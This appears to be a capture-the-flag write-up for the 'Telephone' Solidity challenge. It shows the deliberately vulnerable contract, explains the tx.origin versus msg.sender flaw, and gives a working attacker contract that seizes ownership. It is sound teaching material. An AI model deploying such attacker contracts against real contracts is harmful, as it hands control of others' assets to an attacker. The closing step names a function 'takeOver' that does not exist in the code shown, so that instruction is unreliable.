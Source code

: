 ## Level 4: Telephone <a name="level-4-telephone"></a>

Time to take ownership of the next contract :)
Let’s have a look at the contract in the Telephone level:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

The `changeOwner()` function has an interesting `if` statement: It changes the owner of the contract only if the origin of the transaction (tx.origin) is unequal to the sender (msg.sender).

What’s the difference between the origin and the sender?

The tx.origin global variable refers to the original external account that started the transaction while msg.sender refers to the immediate account (it could be external or another contract account) that invokes the function.

In order to be able to become the owner, we need to deploy a contract, which calls the `changeOwner()` function. Let’s get into it :)

Our attacker contract:

```solidity
pragma solidity ^0.8.7;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Attacker {
    Telephone telephoneContract;

    constructor(address _telephoneContract) {
        telephoneContract = Telephone(_telephoneContract);
    }

    function attack() public {
        telephoneContract.changeOwner(msg.sender);
    }
}
```
Deploy the contract with the address of the Telephone address into the network, send a transaction to `takeOver` and you are already the owner, well done.
